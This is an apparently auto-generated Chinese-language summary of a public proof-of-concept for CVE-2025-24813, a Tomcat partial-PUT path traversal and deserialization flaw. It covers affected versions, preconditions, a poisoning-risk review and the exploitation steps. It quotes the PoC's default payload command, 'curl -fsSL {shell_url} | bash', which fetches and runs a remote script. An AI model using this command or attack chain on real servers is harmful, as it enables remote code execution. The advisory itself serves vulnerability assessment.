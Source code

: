 ## CVE-2025-24813-Apache Tomcat-路径遍历/反序列化

**漏洞编号:** CVE-2025-24813

**漏洞类型:** 路径遍历/反序列化

**影响应用:** Apache Tomcat

**危害等级:** 高危，可能导致远程代码执行和信息泄露

**影响版本:** 9.0.0.M1 - 9.0.98, 10.1.0-M1 - 10.1.34, 11.0.0-M1 - 11.0.2

**利用条件:** 默认Servlet开启写入 (默认关闭), 支持Partial PUT (默认开启), 目标URL存在子目录关系, 攻击者已知敏感文件名 (信息泄露); 或 使用了 Tomcat 的文件Session持久化 (默认位置), 存在可被利用的反序列化库 (RCE)

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2025-24813 存在于 Apache Tomcat 中，是一个路径等价漏洞，结合部分PUT请求功能，可能导致远程代码执行、信息泄露或文件内容被恶意篡改。

**有效性评估：**

根据漏洞库信息、搜索结果和提供的PoC代码，可以判断该PoC代码具有一定的有效性。搜索结果表明，该漏洞已被积极利用，并且存在公开可用的利用方法。PoC代码利用了 Tomcat 的 partial PUT 功能，结合路径遍历，将恶意payload上传到session目录，通过触发反序列化漏洞来实现远程代码执行。

**投毒风险分析：**

PoC代码中存在一定的投毒风险，风险比例约为5%。具体分析如下：

*   PoC代码首先尝试从多个URL下载ysoserial.jar，如果本地不存在。虽然这些URL都是公开的maven仓库或者github地址，但仍然存在被替换为恶意jar包的风险。 *   PoC代码在generate_payload函数中，使用了`subprocess.check_output`来执行java命令，生成payload。如果攻击者能够控制命令行的参数，就可以执行任意命令，进行投毒。
*   PoC代码在try_targets函数中, 尝试通过IP地址解析域名, 并以此进行攻击,可能会对目标网络造成干扰。

尽管存在上述风险，但主要功能符合漏洞利用逻辑，因此判断投毒风险较低。

**利用方式：**

1.  **前提条件：** 目标 Tomcat 实例需要满足以下条件：
    *   Default Servlet 开启了写入功能（默认是关闭的，需要手动配置）。
    *   支持 Partial PUT（默认开启）。
    *   对于RCE，需要使用Tomcat的文件Session持久化机制，并且依赖中存在可被利用的反序列化库。
2.  **下载ysoserial：** PoC 首先会尝试下载 ysoserial.jar，用于生成反序列化 payload。
3.  **判断是否可写：** PoC 尝试在目标服务器上创建一个临时文件，以判断 Default Servlet 是否允许写入。
4.  **生成 Payload：** 使用 ysoserial，根据指定的 gadget 和命令，生成 Java 反序列化 payload。该命令默认使用`curl -fsSL {shell_url} | bash`从指定的`shell_url`下载shell脚本并执行，达到远程代码执行的目的。
5.  **上传 Payload：** 使用 partial PUT 方法，将生成的 payload 上传到 Tomcat session 存储目录。利用路径遍历漏洞，可以绕过一些安全限制。上传的文件名为 `{session_id}.session`。
6.  **触发 Payload：** 通过发送带有特定 Session ID 的 HTTP 请求，触发反序列化操作，从而执行恶意代码。

**总结：**

该漏洞的利用涉及多个步骤，需要目标环境满足一定的条件。PoC 代码通过利用 partial PUT 和路径遍历漏洞，结合 ysoserial 生成的 payload，最终实现远程代码执行。尽管存在一定的投毒风险，但总体来说，该 PoC 代码能够有效地利用 CVE-2025-24813 漏洞。

**项目地址:** [thebringerofdeath789/CVE-2025-24813](https://github.com/thebringerofdeath789/CVE-2025-24813)

**漏洞详情:** [CVE-2025-24813](https://nvd.nist.gov/vuln/detail/CVE-2025-24813)
